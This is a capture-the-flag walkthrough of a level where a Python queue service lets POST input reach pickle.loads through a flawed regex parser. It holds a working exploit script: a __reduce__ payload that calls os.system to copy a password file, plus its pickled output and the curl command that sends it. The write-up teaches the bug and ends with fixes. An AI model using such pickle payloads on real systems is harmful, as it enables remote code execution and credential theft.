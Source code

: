 ## Level 5: validate input strictly enough

This may be the most realistic of all the challenges:
the code is not trivial,
it is not badly written,
there are no obvious mistakes.
But there is one grave mistake in it,
which is not easy to notice,
and not easy to exploit.
It's a kind of vulnerability that can happen to anyone.

What can we see easily?
The description tells us that `level05` is running an uppercasing service.
We can make calls to it using `curl`,
for example:
```
level04@box:~$ curl localhost:8005 -d 'hello friend'
{
    "processing_time": 1.621246337890625e-05, 
    "queue_time": 0.2028050422668457, 
    "result": "HELLO FRIEND"
}
```

The description also tells us that the service is structured as a queue server and a queue worker.
Sure enough,
in the `main` method we see two modes of invocations of the program,
using the `worker` or `server` as the command line argument.

As usual,
let's start by playing with the input,
and try to misuse the service with invalid values:
```
level04@box:~$ curl localhost:8005 -d $(printf '\x11\x12')
...
level04@box:~$ curl localhost:8005 -d $(python -c 'print "a" * 100')
...
level04@box:~$ curl localhost:8005 -d $(python -c 'print "a" * 1000')
...
level04@box:~$ curl localhost:8005 -d $(python -c 'print "a" * 10000')
...
```

Nothing really interesting seems to happen.
Let's see how the input is really handled by digging in the code.
Let's continue investigating the input,
by tracking down how it is processed.

As we are sending the input using HTTP,
let's look for the HTTP service implementation in the code:
it's in the `QueueHttpServer` class,
which has two methods for handling GET and POST requests.
The `do_GET` method simply prints a help message and doesn't handle any inputs,
so there is nothing we can do there.
The `do_POST` method takes the POST data and passes it to a new `QueueServer` instance:
```
def do_POST(self):
        length = int(self.headers.getheader('content-length'))
        post_data = self.rfile.read(length)
        raw_data = urllib.unquote(post_data)

        queue = QueueServer()
        job = Job()
        type, data, job = queue.run_job(data=raw_data, job=job)
        # ...
```
That in turn passes the input to `QueueUtils.enqueue`:
```
class QueueServer(object):
    # Called in server
    def run_job(self, data, job):
        QueueUtils.enqueue('JOB', data, job)
        # ...
```
... which in turn passes it to `QueueUtils.serialize`:
```
    @staticmethod
    def enqueue(type, data, job):
        # ...
        serialized = QueueUtils.serialize(type, data, job)
        # ...
```
... where we can finally see something interesting:
```
    @staticmethod
    def serialize(direction, data, job):
        serialized = """type: %s; data: %s; job: %s""" % (direction, data, pickle.dumps(job))
        # ...
```
Remember that the `POST` data we send from `curl` is now in the `data` variable in the code.
What will the serialized string look like?
We can trace back that the value of `type` can be either `JOB` or `RESULT`.
The value of `data` is whatever we send with `curl`.
And the value of job is a `Job` object,
dumped using the `pickle` library,
which seems to convert objects to strings.
We can guess that the object is probably restored later in the program from string to an object.

Is this safe?
Not quite,
as we can control the content of `data`.
What will happen if we send `x; job: hello` as the input?
The serialized string will look something like this:
```
type: JOB; data: x; job: hello; job: ???
```
We don't know yet how this serialized string is used later in the program,
but this kind of input definitely looks like a special corner case that might not be easy to handle well.
Let's see what actually happens if we call the service with such method:
```
level04@box:~$ curl localhost:8005 -d 'x; job: hello'
{
    "result": "Job timed out"
}
```
Yes, that doesn't look too good.
It looks like we have successfully corrupted the job data.
Let's track down what happens to the serialized string.
Notice the `deserialize` method in the `QueueUtils` class:
```
    @staticmethod
    def deserialize(serialized):
        parser = re.compile('^type: (.*?); data: (.*?); job: (.*?)$', re.DOTALL)
        match = parser.match(serialized)
        direction = match.group(1)
        data = match.group(2)
        job = pickle.loads(match.group(3))
```
Well, well, well.
If you are good at regular expressions the problem may be already obvious,
or we could do a quick test using the Python interpreter to see how our input would impact the processing logic here:
```
level04@box:~$ python
Python 2.7.3 (default, Apr 13 2012, 00:19:31) 
[GCC 4.6.1] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import re
>>> serialized = 'type: JOB; data: x; job: hello; job: ???'
>>> parser = re.compile('^type: (.*?); data: (.*?); job: (.*?)$', re.DOTALL)
>>> match = parser.match(serialized)
>>> match.group(2)
'x'
>>> match.group(3)
'hello; job: ???'
```
So, what we put in the input string after a semicolon,
will become the beginning of the parameter used in `pickle.loads`.
What can we do with this?
What kind of prefix string can we construct that will do something interesting when you call `pickle.loads` on it?

I'm not really familiar with `pickle`,
but we've seen earlier that `pickle.dumps` creates a string from an object,
and `pickle.loads` seems to do the reverse.
Let's play with this a little in a Python interpreter:
```
>>> import pickle
>>> pickle.dumps('hello')
"S'hello'\np0\n."
>>> pickle.dumps([1,2,3])
'(lp0\nI1\naI2\naI3\na.'
>>> pickle.dumps(pickle.dumps)
'cpickle\ndumps\np0\n.'
>>> pickle.loads(pickle.dumps(pickle.dumps))
<function dumps at 0xb7470a74>
```
As expected, `pickle` can serialize values, objects,
functions to string and convert them back.

To exploit this,
we need to read up a bit about pickle in the documentation:
http://docs.python.org/library/pickle.html
Notice the warning right on the front page:

> Warning The pickle module is not intended to be secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

Looks like we are on the right track:
we have already found a way to inject data for "unpickling",
now we just need to find out how can we create a pickle that will reveal the content of the password file.
There is a very interesting item in the documentation:
the `__reduce__()` method:

> When the Pickler encounters an object of a type it knows nothing about — such as an extension type — it looks in two places for a hint of how to pickle it. One alternative is for the object to implement a __reduce__() method. If provided, at pickling time __reduce__() will be called with no arguments, and it must return either a string or a tuple.
>
> (...)
>
> When a tuple is returned, it must be between two and five elements long. (...) The contents of this tuple are pickled as normal and used to reconstruct the object at unpickling time.
>
> The semantics of each element are:
>
> A callable object that will be called to create the initial version of the object. The next element of the tuple will provide arguments for this callable, and later elements provide additional state information that will subsequently be used to fully reconstruct the pickled data.

Based on this we must implement the `__reduce__` method in a certain way:

- Return a tuple
- The first item in the tuple should be a callable
- The second item should be a tuple of arguments for the callable

So, what should be the callable and its arguments?
Perhaps the Python equivalent of the shellcode we used in C programs?
For example,
`os.system` and the argument some appropriate shell command,
like this:
```
import pickle
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('cat /home/level05/.password > /tmp/p',))

print '; job: ' + pickle.dumps(Exploit())
```

Let's save this in a file,
say `exploit.py`,
run it, and save its output:
```
level04@box:~$ python exploit.py > pickle.txt
level04@box:~$ cat pickle.txt
; job: cposix
system
p0
(S'cat /home/level05/.password > /tmp/p'
p1
tp2
Rp3
.
```
Our crafted input has the right prefix,
`; job: `,
let's send this to the service:
```
level04@box:~$ curl localhost:8005 --data-urlencode @pickle.txt
{
    "result": "Job timed out"
}
level04@box:~$ cat /tmp/p
diebasuw
```

Bingo!

## Lessons to learn

- Read the documentation carefully:
  it warned about the dangers of unpickling untrusted text loud and clear.
  In fact, is it really necessary to use pickles?
  Use JSON serialization instead, it's safer.

- Always validate user input carefully.
  Trace in your code all the places where the user input might pass through,
  and make sure your input validation is strict enough.

